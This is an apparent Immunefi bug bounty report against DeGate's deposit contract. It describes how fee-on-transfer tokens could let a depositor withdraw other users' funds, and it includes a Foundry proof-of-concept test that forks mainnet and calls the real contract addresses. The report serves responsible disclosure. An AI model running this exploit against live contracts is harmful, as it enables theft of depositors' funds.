 
# Fee-on-transfer tokens can be used to steal other depositor's funds

Submitted on Dec 3rd 2023 at 15:57:51 UTC by @xBentley for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26468

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x54D7aE423Edb07282645e740C046B9373970a168#code

Impacts:
- Direct theft of user funds from the Default Deposit Contract that is less than 1,000,000 USD.

## Description
## Bug Description
The protocol has implemented a function that is supposed to handle fee-on-transfer tokens called setCheckBalance on the DefaultDepositContract. However, this function can be easily bypassed since it requires contract admin to set correct params BEFORE a deposit transaction. This is not practical since it requires the admin to front-run every deposit, check that the token applies fees to transfers and then set the correct settings. 
## Impact
When withdraing, users can steal other depositor tokens and drain the pool.
## Risk Breakdown
Difficulty to Exploit: Easy
Weakness:
CVSS2 Score:

## Recommendation
It is recommended that the contract instead should rely on ACTUAL balances before and after a deposit to determine if the token applies fees on transfers.
## References


## Proof of concept
I have provided this test as a POC:

```
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

contract DeGateTestContract is Test {
    IExchangeV3 xv3 = IExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    function setUp() public {
        vm.createSelectFork(vm.envString("RPC_URL"), 18558127);
    }

    function testZero() public {
        vm.startPrank(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A);
        //Balance at genesis
        assertEq(0,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).approve(0x54D7aE423Edb07282645e740C046B9373970a168, 12000);
        xv3.deposit(
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,
            0xa7DE087329BFcda5639247F96140f9DAbe3DeED1,
            10000,
            ""
            );
        //Balance after deposit and fee of 100    
        assertEq(9900,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        skip(1396000);
        IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).transfer(0x54D7aE423Edb07282645e740C046B9373970a168, 500);
        //Balance after donation of 500
        assertEq(10395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        xv3.withdrawFromDepositRequest(0x3AD80b5C8FbD3599E24Bf23246171ddbcC4f366A,0xa7DE087329BFcda5639247F96140f9DAbe3DeED1);
        //Balance at end
        assertEq(395,IERC20(0xa7DE087329BFcda5639247F96140f9DAbe3DeED1).balanceOf(0x54D7aE423Edb07282645e740C046B9373970a168));    
        
    }
}

interface IExchangeV3{
    function deposit(
        address from,
        address to,
        address tokenAddress,
        uint248  amount,
        bytes calldata extraData
        )
        external
        payable;
    function withdrawFromDepositRequest(
        address owner,
        address token
        )
        external
        ;    
}

/**
 * @dev Interface of the ERC20 standard as defined in the EIP.
 */
interface IERC20 {
    /**
     * @dev Emitted when `value` tokens are moved from one account (`from`) to
     * another (`to`).
     *
     * Note that `value` may be zero.
     */
    event Transfer(address indexed from, address indexed to, uint256 value);

    /**
     * @dev Emitted when the allowance of a `spender` for an `owner` is set by
     * a call to {approve}. `value` is the new allowance.
     */
    event Approval(address indexed owner, address indexed spender, uint256 value);

    /**
     * @dev Returns the amount of tokens in existence.
     */
    function totalSupply() external view returns (uint256);

    /**
     * @dev Returns the amount of tokens owned by `account`.
     */
    function balanceOf(address account) external view returns (uint256);

    /**
     * @dev Moves `amount` tokens from the caller's account to `to`.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transfer(address to, uint256 amount) external returns (bool);

    /**
     * @dev Returns the remaining number of tokens that `spender` will be
     * allowed to spend on behalf of `owner` through {transferFrom}. This is
     * zero by default.
     *
     * This value changes when {approve} or {transferFrom} are called.
     */
    function allowance(address owner, address spender) external view returns (uint256);

    /**
     * @dev Sets `amount` as the allowance of `spender` over the caller's tokens.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * IMPORTANT: Beware that changing an allowance with this method brings the risk
     * that someone may use both the old and the new allowance by unfortunate
     * transaction ordering. One possible solution to mitigate this race
     * condition is to first reduce the spender's allowance to 0 and set the
     * desired value afterwards:
     * https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729
     *
     * Emits an {Approval} event.
     */
    function approve(address spender, uint256 amount) external returns (bool);

    /**
     * @dev Moves `amount` tokens from `from` to `to` using the
     * allowance mechanism. `amount` is then deducted from the caller's
     * allowance.
     *
     * Returns a boolean value indicating whether the operation succeeded.
     *
     * Emits a {Transfer} event.
     */
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
}
//RPC_URL=$ALCHEMY_API forge test --match-contract DeGateTestContract
```